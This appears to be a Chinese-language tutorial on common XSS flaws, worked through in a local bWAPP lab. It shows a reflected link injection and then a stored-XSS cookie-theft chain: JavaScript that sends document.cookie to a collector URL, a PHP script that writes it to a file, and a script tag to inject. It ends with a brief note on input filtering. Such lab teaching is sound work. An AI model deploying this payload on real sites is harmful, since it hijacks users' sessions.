






### 常见xss漏洞及其简单利用
<br>利用一个简单的表单生成临时的链接



该表单由于没有对用户的输入进行过滤，会原封不动的将用户输入的账号密码反馈回来，因此我们可以构造一个恶意的链接，欺骗用户去点击。
<br>这里进行简单测试，将某一个名字写成指向百度的HTML元素。
```html
<a href="http://www.baidu.com">ClickHere</a>
```

<br>成功进入百度首页<br>


<br>在留言框等地永久执行恶意脚本
<br>这次玩个高级点的，获取用户的cookie。先写一个JavaScript和PHP脚本。


```javascript
var img = new Image();
img.src = "http://localhost/bWAPP/hack.php?q="+document.cookie;
document.body.append(img);
<!--document.cookie可以用于获取用户的cookie-->
```

```php
<?php 
$cookie = $_GET['q'];
var_dump($cookie);
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?> 
```
<br>我们先把这两个文件放在合适的地方，本地测试的话可以考虑放在web根目录。构造一对script标签使js脚本可以被执行，进而PHP脚本也会被执行。
<br>我们构造一对标签，为了显示内容，可以随便写点其他东西。
```html
<script src="http://localhost/bWAPP/hack.js">
<!--只要该页面被访问，cookie就会被拿下，然后就可以干好多事了-->
</script>
hahah
```

刷新一下发现cookie.txt文件里，出现了cookie的字符串。


<br>如何防止这些恶意行为呢，这里先提一个最简单的方法，那就是过滤字符串，将一些敏感字符过滤掉可以防止大多数xss攻击。